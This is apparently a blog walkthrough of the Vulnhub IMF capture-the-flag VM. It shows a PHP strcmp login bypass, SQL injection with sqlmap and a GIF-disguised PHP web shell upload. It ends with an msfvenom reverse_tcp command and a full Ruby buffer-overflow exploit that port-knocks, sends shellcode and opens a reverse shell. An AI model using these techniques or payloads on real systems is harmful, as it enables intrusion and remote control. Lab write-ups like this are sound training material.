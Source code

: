 +++
menu = "vulnhub"
Description = "A walkthrough of the IMF VM from Vulnhub"
date = "2016-11-01T19:16:02-04:00"
title = "B2R: IMF Walkthrough"
Categories = [ "Boot2Root" ]
+++

After mapping the network and finding our IP address at `192.168.1.162`, we can add it to our `/etc/hosts`
temporarily to make things a little easier for us.

~~~bash.prettyprint
echo "192.168.1.162     imf" >> /etc/hosts
~~~

Lets see what kind of machine we're dealing with. 

![](https://i.imgur.com/1DmhXnq.png)


Ok, so web only. Great. `nikto` didn't reveal any low-hanging fruit so let's dive into the source.

![](https://i.imgur.com/S4hPuB2.png)

Check that out! Our first flag was hidden in `http://imf/contact.php`. This looks like base64. After decoding
we get the clue `allthefiles`. Lets keep looking.

Going back to the source code, I found a javascript file that also looked like it was base64 but it didn't
return any results. After a while of going in circles I took my dog for a walk and pondered about what
'allthefiles' could mean. When I came back and looked over the source code again, I saw this:

![](https://i.imgur.com/ANZ1UgC.png)

All the files, ey? 

![](https://i.imgur.com/Ik1rUga.png)

If we visit that directory on our webapp

![](https://i.imgur.com/75xqVVJ.png)

Ok, no DB here. We're dealing with a hardcoded password which means we're dealing with an equaltiy operator
on the backend or possibly the `strcmp()` function. I messed around with nullbyte string termination exploits
here for a while but ultimately ended up nowhere. Let's assume we're dealing with `strcmp` since it's easier
to fool a function than to fool an operator. 

![](https://i.imgur.com/qo8t92C.png)

I'm not very good with PHP, but I'm guessing that I need this function to return a `0` so I fired up
[repl.it](https://repl.it) and started trying to break it. Turns out if you feed it the wrong type (it
expects two strings), it seems to return a `0`.

![](https://i.imgur.com/iQiFPrC.png)
 
So if we can feed this function an array from the web form, we might be able to bypass the password check. By
changing the name of the form's password field from `pass` to `pass[]`, we can do just that. 

![](https://i.imgur.com/DpxX4o7.png)

With the modified form, a BS password, and a username from the Contacts page, we get...

![](https://i.imgur.com/wB0UUP3.png)

The decoded flag just has us click through to the CMS

~~~bash.prettyprint
root@kali:~                                                                                                                                                                                     ⍉
❯❯ echo Y29udGludWVUT2Ntcw== | base64 -d
continueTOcms
~~~

The CMS has 3 pages to choose from and none of them seemed to have any relevant info. I tried (too long) to
use LFI exploits here, modifying URLs, headers, HTTP methods... nothing. I was trying to enter an empty
`pagename` for like the 100th time when I fat fingered the "enter" key and hit `' + Enter` at the same time
when I saw this:

![](https://i.imgur.com/Oqo4ZQg.png)

SQL! Alright, fired up `sqlmap`

![](https://i.imgur.com/izezAtP.png)
![](https://i.imgur.com/uckNUTe.png)

Looks like we have an image at `imfadministrator/images/whiteboard.jpg`

![](https://i.imgur.com/BBLfAQY.png)

The QR Code is our next flag `flag4{dXBsb2FkcjkOMi5waHA=}`

~~~bash.prettyprint
root@kali:~                                                                                                                                                                                     ⍉
❯❯ echo dXBsb2Fkcjk0Mi5waHA= | base64 -d
uploadr942.php   
~~~

We navigate to `http://imf/imfadministrator/uploadr942.php` and we get our uploader. After messing around
with it a bit we can see that the response html from a successful upload has a hash of some sort. I'm
guessing its the hashed version of the filename in the `/uploads` folder. 

Maybe we can craft a malicious image with a reverse_tcp meterpreter payload then insert the new page into our
db so it gets executed.

![](https://i.imgur.com/y8obNV4.png)

Let's upload it!

![](https://i.imgur.com/ePzjKU9.png)

Haha! Whoops. Alright what about just regular command execution:


~~~bash.prettyprint
cat <<EOF > muahaha.gif
GIF89a
<?php \`id\` ?>
~~~

Since CrappyWAF detects functions calls, we should modify our script to take the command from a query
parameter. Let's replace `id` with `$cmd=$_GET['cmd']; echo $cmd` and try again.

![](https://i.imgur.com/v0uaGPw.png)

Lets get a shell that's easier to work with with `msfvenom`.

![](https://i.imgur.com/lXrjIik.png)
![](https://i.imgur.com/dRelPbw.png)


It's time to get a sense of the machine we're in. "Presence"

  * interesting processes - knockd, sshd
  * interesting files (world readable, executable root files, etc) - `/usr/local/bin`
    * `cat /usr/local/bin/access_codes #> SYN 7482,8279,9467`
    * `/usr/local/bin/agent` - connect to some sort of agent portal; download it
  * listening ports `netstat -plnt` - 7788

It looks like we've got a hidden service running on 7788. To enable it, we have to 'knock' in the right order
so the firewalll opens up. If we send SYN packets to 7482 8279 9467, it might open up.

![](https://i.imgur.com/SgDQYRk.png)
![](https://i.imgur.com/SdM3380.png)

Lets decompile our downloaded binary at https://retdec.com/decompilation-run/

![](https://i.imgur.com/WnuLN8R.png)

We can see on line 49 where the authentication happens. It's comparing against a string that was defined on
line 37, `0x2ddd984`. If we pop this into an online hex converter, we get `48093572`

![](https://i.imgur.com/rs6S3Yf.png)

After navigating through our binary, we have a place where we have user input. This is looking like it's
going to be a buffer overflow exploit. Once we download our application and run it through `gdb`, we confirm
that the report function is vulnerable. 

![](https://i.imgur.com/4CxBLoX.png)
![](https://i.imgur.com/bD9RCyw.png)

Bingo. Plug 0x41366641 into `pattern_offset` we see that our buffer ends at 168, meaning our EIP register is
at 169. If we inspect the assembly for the `report` function, we see that our report string is stored in EAX.
Because we have control of both EIP and EAX, it makes sense that we use this control to point one to the
other. We can place our exploit at the beginning of EAX by simply injecting it as the "report". We'll then
pad the input string until it's 168 characters long. Then, well tell EIP that it should return to the
beginning of EAX where our payload is waiting.  If we search to see if EAX is ever called, we can use that
address in EIP. 

![](https://i.imgur.com/R7BFi8b.png)
![](https://i.imgur.com/3yWsjBr.png)

Lets generate our shellcode and start to write the exploit.

~~~bash.prettyprint
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.161 LPORT=4444 -f ruby -b "\x00\x0a\x0d"
~~~

~~~bash.prettyprint
require 'socket'

host = '192.168.1.162'

if ARGV[0] == 'knock'
  [7482, 8279, 9467].each do |port|
    puts "knocking on #{port}"
    `nmap -Pn --host_timeout 201 --max-retries 0 -p #{port} #{host} &>/dev/null`
  end
end

buf = 
"\xda\xd4\xd9\x74\x24\xf4\x58\xbb\xc8\x28\xf5\xc3\x29\xc9" +
"\xb1\x12\x31\x58\x1a\x83\xc0\x04\x03\x58\x16\xe2\x3d\x19" +
"\x2e\x34\x5e\x09\x93\xe8\xca\xac\xa3\x69\x83\x50\x0e\xf5" +
"\x04\xc9\xf9\x36\x82\xef\x58\xde\xd0\xef\x8b\x43\x5d\x0e" +
"\xc1\x1d\x05\x81\x47\xb5\x3c\xc0\x2b\xf4\xbe\xb1\xab\xbf" +
"\xbe\xa5\xb3\xbf\x37\x26\x72\x54\x4b\x68\x96\xa7\xe3\x17" +
"\x94\x38\x58\x61\xc7\xa0\xe8\x7d\xb8\xd0\xd9\xfe\x47\x37"

eip = "\x63\x85\x04\x08"

exploit = buf + "A"*70 + eip

s = TCPSocket.new(host, 7788)
puts s.readpartial(512)
s.write("48093572\n")

puts s.readpartial(512)
s.write("3\n")

puts s.readpartial(512)
s.write(exploit + "\n")
~~~

Let's run it!

![](https://i.imgur.com/ImmvfQj.png)

And there we have it! Thanks for reading!


